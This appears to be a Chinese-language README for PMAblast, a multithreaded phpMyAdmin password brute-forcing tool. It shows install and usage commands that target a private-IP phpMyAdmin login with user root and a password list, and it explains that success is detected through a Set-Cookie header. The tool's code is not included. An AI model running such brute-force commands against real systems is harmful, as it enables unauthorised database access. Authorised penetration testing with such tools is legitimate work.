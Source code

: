 # PMAblast

1、安装依赖库

```bash
pip3 install requests,argparse,threadpool
```

2、使用说明

```bash
python PMAblast.py -u "http://192.168.101.233/phpmyadmin/" -l root -P pass.txt
```

![image-20201229144853002](/images/image-20201229144853002.png)

多线程爆破,默认为10线程

```
python PMAblast.py -u "http://192.168.101.233/phpmyadmin/" -l root -P pass.txt -T 20
```

3、登陆检测原理

登陆成功后头部会携带Set-Cookie字段，进行判断。

![image-20201229145237847](/images/image-20201229145237847.png)